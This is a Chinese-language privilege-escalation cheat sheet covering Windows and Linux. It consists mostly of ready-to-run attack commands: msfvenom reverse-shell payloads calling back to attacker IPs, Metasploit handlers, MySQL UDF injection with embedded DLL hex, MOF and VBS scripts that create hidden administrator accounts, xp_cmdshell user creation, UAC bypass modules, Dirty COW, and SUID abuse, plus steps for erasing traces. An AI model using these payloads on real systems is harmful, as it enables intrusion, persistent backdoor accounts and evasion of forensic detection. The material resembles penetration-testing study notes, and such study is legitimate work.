# 系统漏洞提权

> 利用系统`自身缺陷`提升权限

- 提权流程:`getshell`->`查看目标机补丁记录(systeminfo)`->`寻找对应的exp`->`使用exp提权`

### 查看补丁对应漏洞号

http://blog.neargle.com/win-powerup-exp-index/#

http://tools.sbbbb.cn/tiquan/

http://bypass.tidesec.com/exp/

### 查看对应提权exp

http://github.com/SecWiki/windows-kernel-exploits

```cmd
git clone https://github.com/Sanchit60/Windows-Exploit-Suggester.git
```

### 实战

- 通过`蚁剑`上传`ms16-032.exe`执行命令,如:`ms16-032.exe whoami`


- 使用命令查看安装的补丁

```cmd
# 方法一
systeminfo
# 方法二
wmic qfe get Caption,Description,HotFixID,InstalledOn
```


- 使用`msf`生成后门反弹shell

```cmd
# 32位
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.71.52 LPORT=4444 --arch x86 -f exe -o backdoor.exe
# 64位
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.71.52 LPORT=4444 -f exe -o backdoor.exe

msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp -->32位
set PAYLOAD windows/x64/shell_reverse_tcp -->64位
set LHOST 192.168.71.52
set LPORT 4444
exploit
```


- 使用`ms16-075`配合msf提权

```cmd
use incognito	#使用该模块窃取令牌,模仿令牌
list_tokens -u 	#列举当前的令牌
execute -cH -f ./potato.exe		#执行exp
list_tokens -u	#查看令牌,有一个执行system权限的模仿令牌
impersonate_token "NT AUTHORITY\SYSTEM"		#执行窃取令牌命令
```

****

# Mysql数据库提权

> 前提:获取root用户的账号密码
>
> 注意:如果`into dumpfile`不能用,换`into outfile`

### 使用`udf`提权

- udf->用户自定义函数,支持用户自定义
- 通过`添加新的函数`,对mysql服务器进行`功能扩充`,从而创建函数,将mysql账号转化为系统system权限
- udf提权是通过root权限导出udf.dll到系统目录下,可以通过调用执行cmd
- 利用条件



```cmd
1.windows 2000,xp,2003
2.MySQL数据库版本
3,账号具有对mysql的插入和删除权限
4.可以将udf.dll写入到相应到目录的权限

# 收集必要信息
select version();
select user();		
select @@basedir;	//获取数据库安装目录

#mysql数据库版本高于5.1,创建导出文件夹,使用NTFS ADS流来创建
select 'xxx' into dumpfile 'mysql目录\\lib::$INDEX_ALLCTION';
select 'xxx' into dumpfile 'mysql目录\\lib\\plugin::$INDEX_ALLCTION';

#导入udf.dll文件
-在sqlmap/data/udf/mysql/目录下,在windows目录钟有32位和64位dll文件(mysql的位数)
-文件夹中的dll文件是通过异或编码的,可以使用sqlmap/extra/cloak.py进行解密
-将dll文件上传到mysql的/lib/plugin目录下

#创建自定义函数
create function sys_eval returns string soname 'udf.dll'; 注意:需要创建.dll文件中存在的函数才可以,用16进制编辑器打开.dll文件查看可编辑的函数

#执行语句
select sys_eval("net user tomato tomato /add")

#将该用户提升为管理员
select sys_eval("net localgroup administrators tomato /add")

#清除痕迹
drop function sys_eval;
delete from mysql.func where name="sys_eval";
```


- `执行命令`


#### 示例

- `连接数据库`

- 查看`默认安装路径`及相应信息

```sql
select @@basedir,version()
select version()
```

- `执行sql语句，将hex编码写入udf3.dll文件`

```sql
# 创建表
create table udf(shellcode BLOB);
```

- 获得`十六进制内容`

- 通过`HxD`等工具打开`udf.dll`文件，获取`十六进制内容`，或通过sql语句获得十六进制内容(在本地或服务器上均可)

- ```sql
  #前一地址为udf.dll文件所在地址，后一路径为要输出的十六进制内容的文件，获得十六进制内容的操作也可直接在本地进行
  select hex(load_file('C:/phpStudy/WWW/udf.dll')) into dumpfile 'C:/phpStudy/WWW/udf.txt';
  ```

  

- 往我们自定义的表中`插入十六进制数据内容`

```sql
insert into laffrex values(unhex('这里放入上一步获得的udf.dll的十六进制代码'));

#例如以下形式：
insert into laffrex values(unhex('4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000F80000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A24000000000000004D477BD0092615830926158309261583005E86830B261583005E808308261583005E968307261583005E91830B2615832EE06E8...'));
```



- 将十六进制内容写入udf3.dll文件中

```sql
select shellcode from laffrex into dumpfile 'c:/phpstudy/MYSQL/lib/plugin/udf3.dll';
```


- 根据`udf3.dll`，创建`自定义函数`

1.根据udf文件内容，`选择`使用哪个函数


2.确认所使用函数是否存在，若存在，则考虑换另一个函数，或者删除该函数

```sql
#删除函数语句
DROP FUNCTION sys_eval;
```


```sql
# 创建自定义函数
create function sys_eval returns string soname 'udf3.dll';
```


通过自定义函数，执行相应系统功能

```sql
select sys_eval('whoami');
```



```sql
# 消除痕迹，删除表
DROP TABLE laffrex;
```

****

### 使用mof提权

- 原理:利用`c:/Windows/system32/wbem/mof`目录下的`nullevt.mof`文件,该文件`每分钟`都会在一个特定的时间去`执行一次`的特性
- 利用条件
  - windows <= 2003
  - 对`c:/Windows/system32/wbem/mof`有读写权限
  - 可实现mof文件到相应目录,例如:`数据库允许外联`,有`webshell`,有可写的sql注入漏洞等情况

- `xxx.mof`文件

```cmd
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
	EventNamespace = "Root\\Cimv2";
	Name  = "filtP2";
	Query = "Select * From __InstanceModificationEvent "
			"Where TargetInstance Isa \"Win32_LocalTime\" "
			"And TargetInstance.Second = 5";
	QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
	Name = "consPCSV2";
	ScriptingEngine = "JScript";
	ScriptText =
	"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user cxk666 cxk666 /add\")";
};

instance of __FilterToConsumerBinding
{
	Consumer   = $Consumer;
	Filter = $EventFilter;
};
```

#### 示例

- 上传`shell`并连接
- 上传`xxx.mof`脚本
- 移动脚本到`c:/windows/system32/wbem/mof/`目录

```sql
select load_file('c:/phpstudy/www/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```

- 等待一段时间即可创建成功


### 启动项提权

- 原理:将一段`vbs`脚本导入到`开机启动项`中,如果管理员`重启服务器`,那么就会`自动调用`该脚本,并`执行`其中的用户添加提权命令
- 利用条件:

```cmd
1.上传到目录必须具备可读写权限
2.调用的cmd也必须拥有足够的权限
3.重启服务器可以利用一些可导致服务器蓝屏的exp,或者ddos拒绝服务
```

- 提权方式:
  - 直接将vbs提权脚本上传到启动项目录下
  - 利用sql命令来进行vbs脚本的创建以及添加

#### 方法一

- 条件`c:/Documents and Settings/All Users/开始/程序/启动` 目录存在`可读写`权限
- 保存为`vbs文件`

```cmd
set wsnetwork=CreateObject("WSCRIPT.NETWORK") 
os="WinNT://"&wsnetwork.ComputerName 
Set ob=GetObject(os)         '得到adsi接口,绑定 
Set oe=GetObject(os&"/Administrators,group")       '属性,admin组 
Set od=ob.Create("user", "ichunqiu")         '建立用户 
od.SetPassword "123.com"        '设置密码 
od.SetInfo         '保存 
Set of=GetObject(os&"/ichunqiu",user)        '得到用户 
oe.add os&"/ichunqiu"
```


#### 方法二

- 连接mysql服务器,进入数据库,`show tables`默认情况下`test`中没有任何表存在
- 进入`test`创建一个新的表

```sql
create table a(cmd text);
```

- 在表中插入内容,建立`vbs脚本`

```cmd
insert into a values("set wshshell=createobject(""wscript.shell"")");
insert into a value("a=wshshell.run(""cmd.exe /c net user tomato tomato /add"",0)");
insert into a value("a=wshshell.run(""cmd.exe /c net localgroup administrators tomato /add"",0)");
```

- 输出表为一个vbs文件

```sql
select * from into dumpfile “c:/Documents and Settings/All Users/开始/程序/启动/1.vbs”
```

- 重启

****

# mssql数据库提权

- 利用条件:获得`sa账号密码`或者与sa相同权限的用户

- 必须可以某种方式执行sql语句

  ```cmd
  # 获取所有数据库名
  select name from master.dbo.sysdatabases;
  # 判断是否为sa
  select is_srvrolemember('sysadmin');
  #判断是否有public权限
  select is_srvrolemember('public');
  #判断当前用户读写权限
  select is_srvrolemember('db_owner');
  #查看xp_cmd是否开启,为1则开启
  select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
  #执行命令
  exec master..xp_cmdshell 'net user tomato tomato /add';
  exec master..xp_cmdshell 'net locagroup administrators tomato /add';
  ```

****

# Bypass UAC

- UAC是微软引入的一种安全机制
- 通过UAC应用程序和任务可以在非管理员账户的安全上下文中运行,除非管理员特别授予管理员级别的系统访问权限
- UAC可以阻止未授权的应用程序进行自动安装,并防止无意中更改系统设置

```cmd
#涉及UAC授权的
1.配置windows update
2.增加或删除用户账户
3.改变用户的账户类型
4.改变UAC设置
5.安装AcriveX
6.安装或移除程序
7.安装设备驱动程序
8.设置家长控制
9.将文件移动或复制到Program Files或Windows目录
10.查看安全套用户文件夹
```

#### msf的bypassuac模块

```cmd
exploit/windows/local/bypassuac //进程注入,利用受信任的发布者证书绕过(生成关闭uac的shell)
exploit/windows/local/bypassuac_injection //内存注入
exploit/windows/local/bypassuac_eventvwr	//劫持注册表中的特殊键,在启动windows fodhelper.exe应用程序时调用自定义命令绕过
```

#### 示例1

```cmd
# 进入msf
msfconsile
# 选择反弹shell模块
use payload/windows/meterpreter/reverse_tcp
# 设置监听主机和端口
set LHOST <你的IP>
set LPORT <监听端口>
# 生成可执行文件
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.71.50 LPORT=4444 -f exe -o shell.exe
#如果不在桌面上，可以用指令查找位置
find / -name shell.exe 2>/dev/null

# 重新设置监听
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.71.50
set LPORT 4444
exploit
# 将生成的exe上传到目标机器
# 执行exe后,反弹成功shell
getuid
backgroud #显示保存的session1

# 使用bypass模块
use exploit/windows/local/bypassuac
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.71.50		#设置攻击机ip
set session 1				#指向刚才后台运行的session
exploit						#执行该次操作
# 这里生成了新的session2
getuid #显示为普通权限
#提权
getsystem
```

#### 示例2

> 使用msf-RunAs模块

- 该模块使用`exploit/windows/local/ask`模块，创建一个**可执行文件**，运行该可执行文件后会**发起提升权限的请求**，提示用户**是否继续运行**，如果用户继续运行，则会返回一个高权限的Meterpreter shell

1. 前面提权步骤相同，成功获得session4

   

2. 使用对应模块，成功等待目标主机回应

```bash
use exploit/windows/local/ask		#使用RunAs模块
set session 4		#获取shell的session
run		
```



3.目标主机成功弹窗


4.目标主机点击确认后，kali成功进行`meterpreter shell`


5.成功提权！


****

#### 手动提权

- 使用`mstsc`成功连接目标主机，并且创建后门账户，并赋予管理员权限

- cmd命令行使用`systeminfo`查看是否打了相应的补丁

```cmd
KB4525235/KB4525233
```

1.寻找到该漏洞对应的EXP，并上传到目标主机上，使用管理员权限运行



2.查看证书信息



3.进一步操作



4.将弹出的页面另存为


5.通过浏览器打开命令行



6.成功以高权限用户执行



****

# 错误系统配置

- 服务**未启动**：使用任意服务替换原来的服务，然后重启服务
- 服务**正在运行且无法终止**：利用dll劫持技术并尝试重启

### 注册表

- 注册表键**AlwaysInstallElevated**是一个策略设置项，windows允许低权限用户以**System权限**安装文件，如果启用次策略设置项，那么任何权限用户都能够以**NT AUTHORITY/SYSTEM权限**来安装**恶意的MSI**(Microsoft Windows Installer)文件

- `打开组策略`

```cmd
gpedit.msc
```


`图形化启用`



```cmd
# 或者使用命令行启用
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

-  `安装msi文件`

- 通过命令行调用msiexec安装msi文件，msi文件内包含要执行的Payload，Payload将会以System权限执行

```bash
powershell.exe -exec bypass -Command "&{Import-Module .\PowerUp.ps1;Get-RegistryAlwaysInstallElevated}"
```

- `导出msi文件`

```bash
powershell.exe -exec bypass -Command "&{Import-Module .\PowerUp.ps1;WriteUserAddMSI}"
```

- `命令执行`

```cmd
msiexec /q /i UserAdd.msi

/i  安装操作
/q	隐藏安装界面
```

### Trusted Service Paths

- Windows服务通常是以**System权限运行**的，在解析服务的二进制文件对应的**文件路径中的空格**时，也会**以系统权限进行解析**，因此能够利用该特性进行权限提升

#### 特性

- 对于路径`C:\Program File\Some Folder\Service.exe`，Windows会按照如下顺序进行解析

- ```cmd
  C:\Program.exe
  C:\Program File\Some.exe
  C:\Program File\Some Folder\Service.exe
  ```

- 因此，可以在**特定的目录**，上传**适当命名的恶意可执行文件**，从而在服务重启时，以System权限运行

#### 提权流程

1. 假设已经获得目标机的低权限Meterpreter shell，尝试通过TrustedService Paths漏洞来尝试实现权限的提升

- 服务的可执行文件的路径**没有用双引号封闭**，并且`包含空格`

```apl
#列举受害者机器上所有没有加引号的服务路径
wmic service get name,displayname,pathname,startmode|findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v ""
```


2.检验目标文件夹是否有**写入权限**，使用`icacls`,依次检查是否具有权限

- M表示修改，F表示完全控制，CI表示丛书容器将继承访问控制项，OI表示从属文件将继承访问控制项，这意味着对目录有读、写、删除其下的文件、删除该目录下的子目录的权限


3.在Metasploit中搜索trusted_service_path模块，设置相关参数并攻击，攻击成功后弹回高权限Meterpreter shell


### 3. 其他错误配置

- 利用MSF的service_permissions模块(需要提前获得Meterpreter shell)、自动安装配置文件、利用计划任务等

****

# Linux内核提权

> 1.`whoami`判断权限
>
> 2.根据系统版本查找漏洞,并利用对应的`exp`
>
> 3.翻阅目录,根据linux敏感目录和第三方软件,查找对应的敏感文件
>
> 获取交互式命令行`python -c 'import pty; pty.spawn("/bin/bash")'`

| 命令              | 说明                   |
| ----------------- | ---------------------- |
| uname -a          | 打印所有可用的系统信息 |
| uname -r          | 内核版本               |
| uname -m          | 查看系统内核架构       |
| cat /proc/version | 内核信息               |
| cat /etc/issue    | 发行版本信息           |
| whoami            | 当前用户名             |
| id                | 当前用户信息           |

- 搜索对应的exp

> https://www.exploit-db.com/
>
> https://www.github.com/SecWiki/linux-kernel-exploits

****

# 脏牛提权

- 上传`dirty.c`文件到目标

```bash
#使用下面的命令编译
gcc -pthread dirty.c -o dirty -lcrypt
```

- 执行

```bash
# +新增用户密码
./dijrty 445566
# 查看是否提权成功
cat /etc/passwd
# 销毁(覆盖)
mv /tmp/passwd.bak /etc/passwd
```

### 示例


- 覆盖删除痕迹

```bash
mv /tmp/passwd.bak /etc/passwd
```


****

# Linux suid自定义文件提权

- 编辑一个`demo.c`文件

```c
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("su - tomato");
}
```

- 编译

```bash
gcc demo.c -o demo
```

- 给`demo`文件添加`s权限`

```bash
chmod u+s demo
&
chmod 4777 demo
```


```bash
[root@localhost tmp]# echo "/bin/bash" > su
[root@localhost tmp]# cat su
/bin/bash
[root@localhost tmp]# chmod 777 su
[root@localhost tmp]# export PATH=/tmp:$PATH
[root@localhost tmp]# echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/bin
```


****

# Linux find_suid提权

```bash
[root@localhost /]# which find
/usr/bin/find
[root@localhost /]# chmod u+s /usr/bin/find
[root@localhost /]# ll /usr/bin/find
-rwsr-xr-x. 1 root root 199304 10月 31 2018 /usr/bin/find
[root@localhost /]# su test
[test@localhost /]$ find root -exec "cat whoami" \;
root
```

# Linux Mysql UDF提权

- 和windows类似